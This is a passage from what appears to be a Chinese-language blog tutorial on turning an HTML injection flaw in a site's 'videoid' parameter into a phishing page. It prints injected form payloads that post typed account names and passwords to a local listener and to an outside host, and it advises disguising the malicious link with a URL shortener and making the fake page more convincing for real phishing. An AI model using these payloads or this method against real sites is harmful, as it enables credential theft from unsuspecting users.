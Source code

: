 ![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbuf9djW7nLEWuiadiannfiasoZzZbkCNXSUUIIIxt0uOvEq803HIEXkx6w/640?wx_fmt=png)

`<textarea>`吸收掉登入框后多余的代码

但是像上方截图还是不够让人相信，那在改进一下  

```
payload:
"><form action="http://127.0.0.1:8000">
account: <input type="text" ><br>
password: <input type="text"  ><br>
<input type="submit" value="Login">
</form>
<textarea rows="1" cols="30">
please enter your account and password to login.
```

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbnWB2iaoYjaiagOQiaZQ1C34gxOZicHV1IofRPjA0UqlffbAwYQtdPyHiaWA/640?wx_fmt=png)

这个钓鱼页面我做的还不够好，若是真的上战场用于钓鱼时，可以多花些时间做的更逼真

**将钓鱼页面用于实践**
-------------

本地实践：

```
http://xxxxx.com/xxxx.asp?videoid="><form action="http://127.0.0.1:8000">account: <input type="text" ><br>
password: <input type="text" >
please enter your account and password to login.
```

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbDiaKOH8iby8BZ4g6VW4F7buZ2sFIQPxs5Ft0ZeBq6ZlAfJhibKNUoiceuQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktb4JOibxM9a1HuzxJ3AicXHwI6sqNuSwxMWNN76RLuGhjffyImoXAvFVuA/640?wx_fmt=png)

在公网上公网实践

```
http://xxxxx.com/xxxx.asp?videoid="><form action="https://www.runoob.com/">account: <input type="text" >
please enter your account and password to login.
```

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktb6zN9MtbqOibm03IyKatEYwBiaLbdicC1bxdG9tTVWElrL28AASXCjNOSg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbNuZwUNhf51V6qYxDaZuJyyulI2eD7ics0jXKEPExaObiaV7Cl0AyictSg/640?wx_fmt=png)

在钓鱼时链接太长了容易被人怀疑，我们使用小码短链接这个网页生成一个短链接，

工具地址：https://xiaomark.com/

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbBwLS48p3KicibU1A91MB36J7GYtkGNj60OjOVxogwzo30hQtPibGVlySA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbLRQPMgFSv5PmKbZq9JaicUsFjicFN3ZThh0zAbhaoMvXciaTMhyCMn5ibA/640?wx_fmt=png)
